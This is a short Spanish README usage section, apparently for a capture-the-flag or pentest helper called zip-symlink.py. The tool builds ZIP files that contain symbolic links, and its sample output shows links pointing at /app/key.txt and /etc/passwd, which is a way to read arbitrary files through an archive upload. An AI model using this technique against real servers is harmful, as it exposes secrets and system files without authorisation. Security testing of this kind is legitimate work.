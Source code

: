 # Uso
❯ python zip-symlink.py -f file

[+] Symlink creado: link0 -> /app/key.txt

[+] ZIP creado: output/link0.zip

[+] Symlink creado: link1 -> /etc/passwd

[+] ZIP creado: output/link1.zip

[✓] ZIPs generados con symlinks. Enlaces simbólicos limpiados.


Donde file son los archivos a los que quieres hacerle symlink.
